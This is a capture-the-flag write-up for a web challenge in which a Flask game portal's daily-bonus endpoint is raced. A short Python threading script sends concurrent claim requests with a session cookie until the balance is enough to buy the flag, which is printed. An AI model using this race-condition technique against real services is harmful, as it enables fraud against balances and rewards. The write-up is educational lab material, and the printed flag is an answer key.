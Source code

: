 # Straightforward (Web) - 412

> Test out our game center. You'll have free claiming bonus for first timers!
> 
- `straightforward_player.zip` – Source Code

# Solution

### Examining the Website
On first glance, we're met with a *Game Portal* that allows us to register an account with a username. If the username is taken, the account will not be created.

![image1](https://github.com/user-attachments/assets/060bab54-b351-41a5-b30b-39fddb86fc71)

After creating an account, we're able to either claim a bonus of $1000, or redeem a secret prize for $3000. As you can only obtain a balance of $2000, it should be impossible to claim the prize within the day.

This largely hints at a race condition to be exploited, in which we can process the request twice by using more than one thread to claim the prize.

### Exploiting the Race Condition
To exploit this, we crafted a payload in Python using our session cookie that we obtained by examining the request in Burp Suite, or otherwise easily done by inspecting the webpage:

```python
import requests
import threading

HOST = "<http://159.69.219.192:7859>"
COOKIES = {"session": "eyJ1c2VybmFtZSI6ImVyciJ9.Z_ncIw.-ZLw2zIuPkPHYdADkl2BoLBMpzQ"}

def claim_money():
    response = requests.post(
        f"{HOST}/claim",
        cookies=COOKIES,
    )
    print(response.text)

threads = []
for _ in range(5):
    t = threading.Thread(target=claim_money)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

### Buying the Flag
After running the payload, we'll see that we have enough in our balance to redeem the secret reward on `/buy_flag`.

![image2](https://github.com/user-attachments/assets/7d474ebf-3b8c-4894-8651-ca4f42d78bc4)

![image3](https://github.com/user-attachments/assets/a943b3fb-9898-4003-bc30-804fbf13afa0)

```
UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}
```

# Conclusion
This challenge involves a web application running on Flask where you can claim a daily reward of $1000 and buy a secret reward for $3000. The solution of this challenge is to exploit a pretty *straightforward* race condition within the app by crafting a Python payload that utilizes threading to claim the daily reward more than once. By doing this, we are able to successfully purchase the flag.
